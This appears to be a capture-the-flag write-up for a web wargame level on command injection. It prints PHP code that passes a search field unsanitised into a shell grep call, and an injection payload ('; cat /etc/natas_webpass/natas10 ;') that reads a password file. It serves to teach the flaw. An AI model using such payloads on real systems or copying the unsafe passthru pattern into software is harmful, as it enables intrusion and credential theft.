


# Level 9
This level deals with command injection.

## Quest
We are present with a search box. I type `hello` in searchbox and get the following output.



The backend PHP code is below, Lets comment it
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {   // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];               // If its there, assign it to var $key
} 

if($key != "") {                              // If key is not empty
    passthru("grep -i $key dictionary.txt");  // use it to run a shell command (Bad Practise!)
}
?>
```

## Solution
From the above code, we can see that user input is passed to OS command without any sanitization, this code should be vulnerable to command injection.<br/>
Our goal is to get password for the next level, i.e. access  `/etc/natas_webpass/natas10` .

Our payload         `; cat /etc/natas_webpass/natas10 ;`   -> Terminate the `grep` command with `;` and view file and terminate it with `;` again

As evident from below screenshot, this gets us password for next Level.



### How the payload works
```shell
# If user input is "hello", following command gets executed
grep -i hello dictionary.txt          # Searches dictionary.txt for word hello and displays output

# Now if we put our payload, command becomes
grep -i <span id="yellow">; cat /etc/natas_webpass/natas10 ;</span> dictionary.txt           # See how ; terminates command
```
